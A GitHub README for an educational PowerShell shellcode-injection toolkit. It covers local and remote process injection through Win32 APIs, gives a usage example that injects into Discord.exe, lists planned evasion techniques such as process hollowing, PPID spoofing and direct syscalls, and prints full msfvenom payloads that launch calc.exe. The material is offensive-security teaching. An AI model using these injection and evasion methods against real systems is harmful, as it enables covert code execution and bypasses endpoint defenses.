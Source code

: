 
![image](https://github.com/user-attachments/assets/64fc45d9-b612-47ff-b1bd-e88c89c73259)

This project is a collect of educational PowerShell-based shellcode injection/execution tools with overly verbose comments by design.
The goal is to offer a modular, readable framework that can educate people on native Windows API usage, shellcode execution techniques,
and low-level PowerShell tomfoolery (without leaning on `Add-Type` or embedded `C#`).

It is written with learning in mind over pure stealth and evasion -- hence why it is written in PowerShell instead of any other
language that would *actually* make sense (though to be fair that is kinda what makes this project fun and interesting).

**📁 Directory Structure**
```
ShellcodeLoaderPS/
|__ helpers/
|   |__ win32-examples/*        # Contains examples of Win32 API usage via helper functions (e.g., `CreateProcessA().ps1`).
|   |__ Build-Win32Struct.ps1   # Defines .NET data structs within the session usable by Win32 functions.
|   |__ Format-ByteArray.ps1    # Converts shellcode strings in different languages to usable byte arrays.
|   |__ Load-Win32Function.ps1  # Dynamically resolves and loads Win32 API functions into session via delegates.
|__ standalone/
|   |__ add-type/*              # Standalone function(s) for shellcode injection using `Add-Type`.
|   |__ win32/*                 # Standalone function(s) for shellcode injection using Win32 API via helper functions.
|   |__ native/*                # Standalone function(s) for shellcode injection using Native API via helper functions.
|__ Load-Shellcode.ps1          # Main shellcode injector function, wrapping functionality of standalone functions.
|__ calc32.bin                  # Example 32-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
|__ calc64.bin                  # Example 64-bit `calc.exe` shellcode generated from `msfvenom` used for testing.
```
_(Note: this project is work-in-progress, therefore some directory structures haven't been implemented yet)_

---

## Technical Roadmap

> This project is actively in development and has a long way to go.  The below section provides a checklist
> with technical details of current and future completion goals, along with educational high-level breakdowns.

<details>
  <summary><b>✅ Avoiding Import Address Table (IAT) via Function Delegates</b></summary>
  
  - **Summary:**
    - This technique avoids common (and noisy) practices such as utilizing `Add-Type` and embedded `C#`.
    - This is accomplished via custom helpers to resolve and invoke raw function pointers with .NET delegates, allowing you to invoke them without adding an entry to the IAT.
    - Custom Scripts: [Load-Win32Function.ps1](./helpers/Load-Win32Function.ps1), [Build-Win32Struct.ps1](./helpers/Build-Win32Struct.ps1)`
</details>

<details>
  <summary><b>✅ Local Process Injection (via Kernel32.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into the current local process (i.e., `PowerShell`) using standard Win32 API calls (aka `Kernel32.dll`).
    - Skipping Native API (aka `Ntdll.dll`) due to remote process injection POC also supporting local process injection.
```mermaid
flowchart LR

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }

subgraph Win32 Process Injection
  PS --> | Step 1:<br>**VirtualAlloc**<br>Allocate memory.  | Proc
  PS --> | Step 2:<br>**CopyMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 3:<br>**CreateThread**<br>Execute shellcode. | Proc
  PS --> | Step 4:<br>**WaitForSingleObject**<br>Wait for completion. | Proc
end
```
</details>

<details>
  <summary><b>✅ Remote Process Injection (via Kernel32.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into remote processes via the Win32 API (aka `Kernel32.dll`).
    - This also works for local process injection by targeting the current process' PID.
```mermaid
flowchart TD;

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Victim</b><br>(Remote Process)" }

subgraph Win32 Process Injection
  PS --> | Step 1:<br>**OpenProcess**<br>Acquire handle to process.  | Proc
  PS --> | Step 2:<br>**VirtualAllocEx**<br>Allocate memory. | Proc
  PS --> | Step 3:<br>**WriteProcessMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 4:<br>**CreateRemoteThread**<br>Execute shellcode. | Proc
end
```
</details>

<details>
  <summary><b>❌ Remote Process Injection (via Ntdll.dll)</b></summary>

  - **Summary:**
    - Inject shellcode into remote processes via the Native API (aka `Ntdll.dll`).
    - This also works for local process injection by targeting the current process' PID.
```mermaid
flowchart TD;

%% Establish Processes
PS@{ shape: win-pane, label: "<b>Attacker</b><br>(PowerShell Session)" }
Proc@{ shape: win-pane, label: "<b>Victim</b><br>(Remote Process)" }

subgraph Native Process Injection
  PS --> | Step 1:<br>**NtOpenProcess**<br>Acquire handle to process.  | Proc
  PS --> | Step 2:<br>**NtAllocateVirtualMemory**<br>Allocate memory. | Proc
  PS --> | Step 3:<br>**NtWriteVirtualMemory**<br>Copy shellcode to process. | Proc
  PS --> | Step 4:<br>**NtCreateThreadEx**<br>Execute shellcode. | Proc
end
```
</details>

<details>
  <summary><b>❌ Process Hollowing</b></summary>
  
  - **Summary:**
    - Create a legitimate process in a suspended state, then replace the process' memory with malicious code before resuming execution.
</details>

<details>
  <summary><b>❌ Parent Process ID (PPID) Spoofing</b></summary>
  
  - **Summary:**
    - Spoof the parent process ID when creating processes.
    - This technique can make malicious processes appear spawned from trusted processes.
</details>

<details>
  <summary><b>❌ APC Injection (aka Earlybird)</b></summary>
  
  - **Summary:**
    - Queue shellcode execution to a thread's Asynchronous Procedure Call (APC) queue for stealthy execution.
</details>

<details>
  <summary><b>❌ Direct System Call Implementation</b></summary>
  
  - **Summary:**
    - Bypass userland API hooks by invoking direct system calls via SysCall stubs.
    - SysCalls are dependent on system architecture and build versions, so this will need to be very modular.
    - Reference: https://j00ru.vexillium.org/syscalls/nt/64/
</details>

## Load-Shellcode.ps1 Usage

> Every script should hopefully be excessively documented, so plese refer to the source code for other examples.

```
Usage: Load-Shellcode [options]

Parameters:
  -Shellcode  -->  Shellcode to execute (can be a byte array or string containing file path or bytes).
  -TargetPID  -->  Target process PID to inject into. 
  -Debug      -->  Pause execution and print shellcode address for process attachment.
  -Help       -->  Return Get-Help information.

Example(s):
  ____________________________________________________________________________
 |                                                                            |
 | # Inject shellcode strintg into the current PowerShell process (and debug) |
 | PS> Load-Shellcode -Shellcode $calc64 -TargetPID $PID -Debug               |
 |                                                                            |
 | # Inject shellcode binary into 'Discord.exe'                               |
 | PS> $DiscordPID = (Get-Process -Name Discord).Id | Select -First 1         |
 | PS> Load-Shellcode -Shellcode .\calc64.bin -TargetPID $DiscordPID          |
 |____________________________________________________________________________|
```
_(Note: as of writing, only Win32-based remote process injection has been implemented -- will update over time)_

![image](https://github.com/user-attachments/assets/8753c151-8cc4-4f19-90be-23a8c2a620c5)

### Shellcode Parsing

For supported shellcode, the `-Shellcode` parameter is intentionally undeclared and written to accept most shellcode formats. Currently supports strings `[string]` and byte arrays `[byte[]]`.
If a standard array `[array]` is used, the array will be converted to a string prior to language detection. If a byte array is used, no formatting will occur.

Below is a table of supported string formats:

| Format | Example |
| --- | --- |
| Path to Raw Shellcode | `.\shellcode.bin` |
| Python Shellcode      | `'b"\x45\x78\x61\x6d\x70\x6c\x65"'` |
| C Shellcode           | `'\x45\x78\x61\x6d\x70\x6c\x65'` |
| C++ / C# Shellcode    | `'{0x45,0x78,0x61,0x70,0x6c,0x65}'` |

### Architecture Support
Works with both `Windows PowerShell` and `PowerShell Core (Pwsh)`. Using 64-bit PowerShell sessions
allows for both 64-bit and 32-bit injection, whereas 32-bit sessions only allow 32-bit injection.

## Shellcode Examples

Included in the files of this repository are two `calc.exe` shellcode files created from `msfvenom`, in both 32-bit and 64-bit...

... with that said, I recognize the inherent trust needed before executing mysterious, unknown shellcode.  With that said, below are string
variants (which are the literal exact bytes I used to write those two `.bin` files) -- so feel free to use these instead.

```powershell
# 32-bit Shellcode (C Format)
# > msfvenom -p windows/exec CMD=calc.exe -f c EXITFUNC=thread

$calc32 = '\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00'

# 64-bit Shellcode (C# Format)
# > msfvenom -p windows/x64/exec CMD=calc.exe -f csharp EXITFUNC=thread

$calc64 = '{
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,
0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,
0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,
0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,
0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,
0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,
0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,
0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
}'
```
For 32-bit reverse shell shellcode, check out my [genrev](https://github.com/tylerdotrar/genrev) project!
